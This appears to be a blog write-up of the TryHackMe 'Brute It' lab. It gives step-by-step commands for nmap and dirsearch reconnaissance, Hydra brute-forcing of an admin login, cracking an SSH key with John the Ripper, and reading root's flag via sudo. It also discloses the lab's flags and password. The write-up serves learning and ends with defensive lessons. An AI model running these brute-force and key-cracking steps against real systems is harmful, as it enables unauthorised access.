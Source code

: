 ```yaml
---
title: "🧪 Brute It"
layout: post
collection: writeups
permalink: /writeups/tryhackme-brute-it/
date: 2025-01-10
categories:  ["Writeups", "TryHackMe"]
tags: [react, mysql, logistics]
image: /assets/images/writeups/brute-it/tryhackme-brute-it.png
thumbnail: /assets/images/writeups/brute-it/tryhackme-brute-it.png
icon: fas fa-bolt
excerpt: "Brute-forced SSH using Hydra, cracked RSA key with John the Ripper, and escalated to root on an Ubuntu machine."
description: "Hydra brute-force against an admin panel, SSH key crack with john, and privilege escalation on an Ubuntu machine."
---
```




![Brute It Screenshot](/assets/images/writeups/brute-it/tryhackme-brute-it.png)

## 🧠 Target
- Brute-force login credentials over SSH  
- Hash cracking  
- Privilege escalation

## 🛠 Tools Used
- Hydra  
- Nmap  
- John the Ripper  
- Kali Linux

## 🧭 Steps

### Step 1 — Deployed the target machine
Target IP: `10.10.34.33`  
Deployed the target and confirmed reachability.

![Target Machine](/assets/images/writeups/brute-it/target-machine.png)

### Step 2 — Nmap scan
Command:
nmap -sS -sV 10.10.34.33

markdown
Copy code
Findings: ports `22` (ssh) and `80` (http) open. SSH: **OpenSSH 7.6p1**. Apache: **2.4.29**. OS: **Ubuntu**.

![Nmap](/assets/images/writeups/brute-it/nmap.png)

### Step 3 — Hidden directories
Used dirsearch:
dirsearch -u http://10.10.34.33


Found `/admin` — admin login page available.

![Dirsearch](/assets/images/writeups/brute-it/dirsearch.png)

### Step 4 — Admin page analysis
Visited `http://10.10.34.33/admin`. Devtools revealed a username hint: `admin`.

![Admin Devtools](/assets/images/writeups/brute-it/User-login-info-devtools.png)

### Step 5 — Hydra brute-force
Initial (slow) command:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^login=^Login:Username or password invalid"

makefile
Copy code
Optimized:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 16 -vV 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^&login=Login:Username or password invalid"

ruby
Copy code
Result: `login: admin  password: xavier`

![Hydra](/assets/images/writeups/brute-it/hydra1.png)

### Step 6 — Logged in as admin
Gained user access. Web flag: `THM{brut3_f0rce_is_e4sy}`.

![Admin Login](/assets/images/writeups/brute-it/login-success.png)

### Step 7 — Extracted RSA private key & cracked it
Saved RSA private key and converted it for John:
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hash
john --show hash

ruby
Copy code
Cracked key allowed SSH as `john`.

![RSA crack](/assets/images/writeups/brute-it/rockinroll.png)

### Step 8 — Shell & flags
Used the private key:
chmod 600 id_rsa
ssh -i id_rsa john@10.10.34.33
cat user.txt

ruby
Copy code
Web Flag: `THM{brut3_f0rce_is_e4sy}`  
User flag present. Then escalated to root.

![Shell](/assets/images/writeups/brute-it/root.png)

### Step 9 — Privilege escalation
Checked sudo rights:
sudo -l
sudo cat /root/root.txt

yaml
Copy code
Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

![Privilege](/assets/images/writeups/brute-it/sudo.png)

---

## 📘 Lessons Learned
- Enforce account lockout and rate-limiting (prevent brute-force).  
- Use multi-factor authentication or SSH key policies.  
- Avoid guessable credentials and default accounts.

---

## Notes / Artifacts
- Commands used and screenshots are included above.  
- Sanitize any client screenshots before publishing publicly.




